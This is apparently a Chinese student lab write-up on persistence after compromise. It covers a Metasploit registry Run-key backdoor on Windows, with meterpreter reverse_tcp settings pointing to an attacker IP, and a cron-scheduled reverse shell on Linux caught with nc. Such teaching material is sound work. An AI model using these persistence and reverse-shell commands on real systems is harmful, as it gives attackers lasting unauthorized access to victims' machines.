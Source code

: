 ```yaml
---
title: 实验六--权限维持技术
category: 学习笔记
tags: 
  - 网络渗透测试技术
  - 权限维持
published: 2023-12-06
permalink: /archives/wv34hxwx/
---
```

## 实验目的

1、学会使用工具写入windows注册表后门，使用linux计划任务进行权限维持。

## 实验任务

1、在获取windows主机权限后，写入注册表后门进行权限维持，并检验注册表后门的效果

2、在linux系统中写入计划任务后门，并检验计划任务是否正常运行

## 实验步骤

## windows 权限维持 注册后门

在获得shell后background退出
选择注册表后门模块

```text
use exploit/windows/local/persistence
```

然后选择好攻击模块设置参数，攻击机IP和端口，还有设置会话

```plaintext
set payload windows/x64/meterpreter/reverse_tcp  //这句可以不写，因为默认攻击模块就是这个
set lhost 192.168.100.133
set lport 4455
set session 1
run
```

![](./images/202312071143184.png)
在靶机的对应目录下找到了vbs文件
目录：`C:\Users\win7\AppData\Local\Temp\`
![](./images/202312071143185.png)

win+r打开运行输入regedit回车即可打开注册表
然后在 `KCU\Software\Microsoft\Windows\CurrentVersion\Run`下即可看到注册表也成功写入

![实验六_image_3](./images/202312071143186.png)回到攻击机设置msf，让两个红框的内容一致，执行run之后，重启靶机，即可发现，在登录了靶机之后msf自动上线成功

```
use multi/handler
set lhost 192.168.100.133
set lport 4455
run
```

![实验六_image_4](./images/202312071143187.png)

## linux权限维持   计划任务反弹shell

使用crontab命令进行反弹shell。crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹

（下面是以Ubuntu18.04为例）
1.服务开启
service cron start
2.编辑计划任务
crontab -e -u 用户名
3.查看计划任务
crontab -l -u 用户名
4.删除计划任务：
crontab -r -u 用户名

创建反弹shell脚本，vim  shell.sh
里面的 ip和端口号要和攻击机对应

![实验六_image_5](./images/202312071143188.png)

保存后还要更改文件的权限

![实验六_image_6](./images/202312071143189.png)
然后添加计划任务，需要root权限
vim /etc/crontab
设置反弹shell任务每分钟执行一次
要设置好文件的绝对路径

![实验六_image_7](./images/202312071143190.png)

kali使用nc启动监听，即可监听到shell

![实验六_image_8](./images/202312071143191.png)
